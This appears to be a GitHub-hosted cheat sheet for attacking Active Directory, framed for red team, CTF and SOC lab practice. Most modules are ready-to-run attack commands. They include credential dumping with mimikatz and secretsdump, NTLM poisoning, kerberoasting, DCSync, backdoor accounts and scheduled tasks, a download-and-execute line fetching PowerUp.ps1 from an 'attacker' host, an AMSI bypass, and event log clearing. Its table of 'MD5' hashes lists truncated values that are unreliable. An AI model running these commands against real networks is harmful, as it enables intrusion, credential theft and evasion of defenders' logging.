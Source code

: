 # Active Directory Penetration Testing - Basics

> Ethical Hacking | Red Team | CTF | SOC Labs | Blue Team Awareness | Offensive Security
<div class="ad-module">

## 🧭  Objectives

This guide takes you through a full course on attacking Active Directory (AD) environments, suitable for red team operations, CTF competitions, and SOC training. You'll cover:

- AD core concepts
- Recon and enumeration
- Gaining and abusing credentials
- Movement and escalation
- Attacking Kerberos, trusts, and related systems
- Post-exploitation, evasion, and cleanup
</div>

<div class="ad-module">

## 🧱 Module 1: Active Directory Basics

**Definition:** Active Directory (AD) is Microsoft’s centralized domain management system that authenticates and authorizes users and computers.

**Core Components:**

- **Domain Controllers (DCs):** Store the AD database and handle authentication
- **Domains, Forests, Trees:** Logical structures for organizing resources
- **Organizational Units (OUs):** Containers for grouping users, computers
- **Group Policy Objects (GPOs):** Define rules and security settings

**Protocols & Services:**

- **Kerberos & NTLM** for authentication
- **LDAP** for querying the directory
- **DNS, SMB, RPC** for communication

</div>

<div class="ad-module">

## 🛰️ Module 2: Reconnaissance Phase

**Goal:** Map the network and identify live hosts/services.

**Tools:** netdiscover, nmap, nbtscan, masscan

```bash
netdiscover -i eth0
nmap -sP 192.168.1.0/24
masscan 192.168.1.0/24 -p1-65535 --rate=10000
nbtscan 192.168.1.0/24
```

</div>

<div class="ad-module">

## 🔍 Module 3: Enumeration Phase

**Goal:** Discover domain details—users, shares, GPOs, etc.

**Tools:** enum4linux, smbclient, ldapsearch, rpcclient, BloodHound, ADExplorer

```bash
enum4linux -a 192.168.1.100
smbclient -L \\192.168.1.100 -N
ldapsearch -x -H ldap://192.168.1.100 -b "dc=domain,dc=local"
```

</div>

<div class="ad-module">

## 🚪 Module 4: Initial Access

**Goal:** Obtain a foothold using weak auth or misconfig.

**Techniques:** AS-REP Roasting, NTLM Relay, LLMNR Poisoning

```bash
GetNPUsers.py domain.local/ -no-pass -usersfile users.txt -dc-ip 192.168.1.100
responder -I eth0
mitm6 -i eth0

```

</div>

<div class="ad-module">

## 🔐 Module 5: Credential Access

**Goal:** Extract passwords, hashes, and tickets.

**Tools:** mimikatz, secretsdump, pypykatz

```bash
mimikatz > sekurlsa::logonpasswords
secretsdump.py domain/user:pass@192.168.1.100

```

</div>

<div class="ad-module">

## 📡 Module 6: Lateral Movement

**Goal:** Move to other systems after initial access.

**Tools:** wmiexec, psexec, crackmapexec

```bash
wmiexec.py domain/user:pass@192.168.1.101
psexec.py domain/user:pass@192.168.1.101

```

</div>

<div class="ad-module">

## 📈 Module 7: Privilege Escalation

**Goal:** Escalate local user to SYSTEM or Domain Admin.

**Tools:** winPEAS, PowerUp, Seatbelt

```bash
winPEAS.exe
powershell -ep bypass -Command "IEX (New-Object Net.WebClient).DownloadString('http://attacker/PowerUp.ps1'); Invoke-AllChecks"

```

</div>

<div class="ad-module">

## 🧲 Module 8: Persistence Techniques

**Goal:** Maintain long-term access.

```powershell
net user attacker P@ssw0rd /add
net localgroup administrators attacker /add
schtasks /create /tn "Backdoor" /tr "cmd.exe /c whoami >> C:\backdoor.txt" /sc minute /mo 5

```

</div>

<div class="ad-module">

## 🎭 Module 9: Kerberos Attacks

**Goal:** Abuse ticketing mechanisms.

**Tools:** Rubeus, GetUserSPNs, hashcat

```bash
GetUserSPNs.py domain/user:pass -dc-ip 192.168.1.100
hashcat -m 13100 hashes.txt rockyou.txt --force

```

</div>

<div class="ad-module">

## 🏛️ Module 10: Domain Escalation

**Goal:** Gain Domain Admin or take over trusts.

```bash
lsadump::dcsync /domain:domain.local /user:Administrator
Invoke-ACLScanner
Invoke-AddComputer

```

</div>

<div class="ad-module">

## 🧾 Module 11: Post-Exploitation

**Goal:** Data collection, pivoting, intel gathering.

```bash
findstr /S /I cpassword \\dc\sysvol
LaZagne.exe browsers

```

</div>

<div class="ad-module">

## 🕵️ Module 12: Defense Evasion

**Goal:** Avoid detection during attacks.

```powershell
Clear-EventLog -LogName Security
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)

```

</div>

<div class="ad-module">

## 🧹 Module 13: Cleanup

**Goal:** Remove traces post-assessment.

```powershell
net user attacker /del
schtasks /delete /tn "Backdoor"
Clear-EventLog -LogName System

```

</div>

<div class="ad-module">

## 🖧 Module 14: Connected System Attacks

**Exchange:**

```powershell
Invoke-SelfSearch -Mailbox user@domain.local -SearchQuery 'password'

```

**SCCM:** Abuse deployment paths or extract config.

**ADFS:** Golden SAML, token forging

</div>

## 🧪 Tools & References

| Tool | Use | MD5 Hash |
| --- | --- | --- |
| Mimikatz | Dump credentials | b72868aa |
| BloodHound | AD relationship mapping | 358a13fe |
| Impacket | Remote command & Kerberos | 8102db6b |
| CrackMapExec | Lateral movement and enum | 118802fb |
| Responder | LLMNR spoof | 34bdf2dc |
| PEASS-ng | Privesc check | a1074bbf |
| PowerSploit | PowerShell recon/privesc | 473d90f6 |

## ✅ You're Ready!

Use this cheat sheet to practice on your lab and in CTFs. Let me know if you want video walkthroughs or scripts for automation.

